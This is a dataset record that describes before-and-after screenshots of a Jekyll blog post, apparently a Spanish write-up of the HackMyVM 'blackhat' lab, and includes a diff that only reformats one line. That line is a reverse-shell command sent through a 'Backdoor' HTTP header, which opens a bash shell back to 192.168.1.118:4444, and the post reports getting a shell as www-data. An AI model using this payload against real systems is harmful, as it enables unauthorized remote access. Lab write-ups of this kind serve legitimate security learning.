

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-29-blackhat-hmv.md, in a window 1280 px wide. Shown: the part 1443-3363 px from the top of the page at 81% size, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3331 px from its top, so only the background shows below that.

````diff
--- a/all_collections/_posts/2022-11-29-blackhat-hmv.md
+++ b/all_collections/_posts/2022-11-29-blackhat-hmv.md
@@ -40,7 +40,9 @@ Bien! Vemos que podemos ejecutar comandos de forma remota! Ahora tenemos que gan
 
 Ahora sí estamos preparados para entablar una conexión:
 
-- `curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118`
+```
+curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118
+```
 
 Bien! Hemos recibido una Shell como `www-data`!
 
````
